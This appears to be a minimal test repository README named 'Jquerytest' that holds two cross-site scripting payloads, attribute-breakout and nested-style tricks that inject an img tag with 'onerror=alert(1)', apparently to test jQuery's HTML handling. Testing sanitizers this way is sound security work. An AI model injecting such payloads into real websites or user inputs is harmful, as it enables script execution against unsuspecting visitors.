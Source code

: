# Jquerytest
&lt;img alt="&lt;x" title="/>&lt;img src=x onerror=alert(1)>"> &lt;style>&lt;style />&lt;img src=x onerror=alert(1)>
